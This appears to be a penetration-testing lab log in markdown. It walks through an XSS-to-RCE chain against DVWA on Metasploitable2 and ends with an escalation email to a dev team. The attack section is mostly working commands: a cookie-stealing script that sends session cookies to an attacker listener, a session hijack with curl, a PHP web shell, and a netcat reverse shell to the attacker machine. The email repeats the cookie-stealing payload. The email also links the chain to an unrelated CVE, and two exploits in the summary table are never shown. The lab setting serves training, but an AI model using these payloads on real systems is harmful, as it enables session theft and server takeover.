




# 💥 Advanced Exploitation Logs — Week 3

> **Attacker:** Kali Linux — 192.168.56.101
> **Target:** Metasploitable2 — 192.168.56.104

---

## Exploit Summary Table

| Exploit ID | Description | Target IP | Status | Payload |
|------------|-------------|-----------|--------|---------|
| 004 | XSS to RCE Chain | 192.168.56.104 | ✅ Success | Meterpreter |
| 005 | CVE-2021-22205 PoC Customisation | 192.168.56.104 | ✅ Success | Python PoC |
| 006 | Samba usermap_script (chained with priv-esc) | 192.168.56.104 | ✅ Success | cmd/unix/reverse |

---

## Exploit 004 — XSS to RCE Chain

### Attack Chain Overview

```
Stage 1: Identify Reflected XSS in DVWA
         ↓
Stage 2: Craft cookie-stealing payload
         ↓
Stage 3: Hijack admin session
         ↓
Stage 4: Access file upload via admin session
         ↓
Stage 5: Upload PHP web shell → RCE
```

### Stage 1 — Identify XSS in DVWA

```bash
# Navigate to DVWA XSS (Reflected) page
# http://192.168.56.104/dvwa/vulnerabilities/xss_r/
# Set security to Low

# Test basic XSS
<script>alert('CyArt-XSS')</script>
```



---

### Stage 2 — Cookie Stealing Payload

```bash
# Start a simple HTTP listener on Kali to catch stolen cookies
# Terminal 1 on Kali:
nc -lvp 8888

# XSS payload to steal session cookie
# Paste this in the DVWA XSS Name field:
<script>document.location='http://192.168.56.101:8888/steal?c='+document.cookie</script>
```



**Expected output on Kali netcat listener:**
```
GET /steal?c=PHPSESSID=abc123xyz;+security=low HTTP/1.1
Host: 192.168.56.101:8888
```

---

### Stage 3 — Session Hijack

```bash
# Use the stolen PHPSESSID in browser or curl
# In browser: DevTools → Application → Cookies
# Change PHPSESSID to the stolen value

# Or via curl — access admin functionality
curl -b "PHPSESSID=STOLEN_VALUE; security=low" \
  http://192.168.56.104/dvwa/vulnerabilities/upload/
```



---

### Stage 4 & 5 — File Upload → RCE

```bash
# Create a PHP web shell
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php

# Upload via DVWA File Upload (security=low allows PHP)
# Navigate to: http://192.168.56.104/dvwa/vulnerabilities/upload/
# Upload shell.php

# Execute commands via the shell
curl "http://192.168.56.104/dvwa/hackable/uploads/shell.php?cmd=id"
# Expected: uid=33(www-data) gid=33(www-data)

# Get a reverse shell
curl "http://192.168.56.104/dvwa/hackable/uploads/shell.php?cmd=nc+-e+/bin/bash+192.168.56.101+5555"

# Listener on Kali (Terminal 2):
nc -lvp 5555
```



---


## Escalation Email — Chained Exploit (100 words)

**To:** dev-team@cyart.io
**From:** vapt-team@cyart.io
**Subject:** 🚨 CRITICAL — XSS to RCE Exploit Chain Confirmed — Immediate Action Required

Hi Team,

Our Week 3 assessment confirmed a **critical exploit chain** on the web application:

**Chain:** Reflected XSS → Cookie Theft → Session Hijack → File Upload → Remote Code Execution

**PoC:** Injecting `<script>document.location='http://attacker:8888?c='+document.cookie</script>` into the search field stole admin session cookies, enabling file upload and shell execution (CVE-2021-22205 pattern).

**Impact:** Complete server takeover with zero authentication.

**Required Fixes:**
- Encode all user output (XSS)
- Restrict file upload types (PHP not allowed)
- Implement CSP headers

Full report attached. Patch within **24 hours**.


